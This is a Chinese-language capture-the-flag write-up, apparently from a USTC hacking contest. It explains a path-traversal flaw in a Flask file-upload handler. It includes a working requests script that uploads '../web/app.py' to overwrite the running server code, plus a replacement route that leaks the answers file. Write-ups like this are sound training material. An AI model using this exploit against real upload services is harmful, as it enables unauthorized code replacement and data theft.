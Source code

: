 ```python
    if "file" not in request.files or request.files['file'].filename == "":
        flash("你忘了上传文件")
        return redirect("/")
    file = request.files['file']
    filename = file.filename
    filepath = os.path.join(UPLOAD_DIR, filename)
    file.save(filepath)

    answers = get_answer()
    try:
        with open(filepath) as f:
            user = json.load(f)
    except json.decoder.JSONDecodeError:
        flash("你提交的好像不是 JSON")
        return redirect("/")
    try:
        score = 0
        for idx, i in enumerate(answers):
            score += (i - user[idx]) * (i - user[idx])
    except:
        flash("分数计算出现错误")
        traceback.print_exc()
        return redirect("/")
    # ok, update results
    results.append(score)
    with open("results.json", "w") as f:
        json.dump(results, f)
    flash(f"评测成功，你的平方差为 {score}")
    return redirect("/")
```

花里胡哨的算分功能，根本不用看，只要意识到在`/submit`接口有一个路径穿越漏洞就行了，因为它是用`os.path.join`来拼接路径的，所以我们就可以上传一个文件名类似于`../../balabala`这种，我们就基本可以想上传到哪就上传到哪。

注意到题目告诉了我们：网站代码运行在 `/tmp/web`，而且他甚至还开了`--reload`。既然网站是用`flask`写的，那我盲猜一波主文件在`/tmp/web/app.py`，而我们上传的路径在`/tmp/uploads`，所以我们直接上传一个文件`../web/app.py`，这个操作则可以用`requests`实现：

```python
import requests

url = 'https://chal02-drfrs8jw.hack-challenge.lug.ustc.edu.cn:8443/'
file = 'backend.py'

with open(file, 'rb') as f:
    files = {'file': ('../web/app.py', f)}
    response = requests.post(url + 'submit', files=files)

```

而`backend.py`文件中，我们就可以去写拿flag的逻辑了，比如把index路径的请求改了：

```python
@app.route("/", methods=["GET"])
def index():
    with open("answers.json") as f:
        answers = json.load(f)[:100]
    ascii_answers = ''.join(chr(num + 65) for num in answers if isinstance(num, int))
    return ascii_answers
    # return render_template("index.html", results=sorted(answers))
```
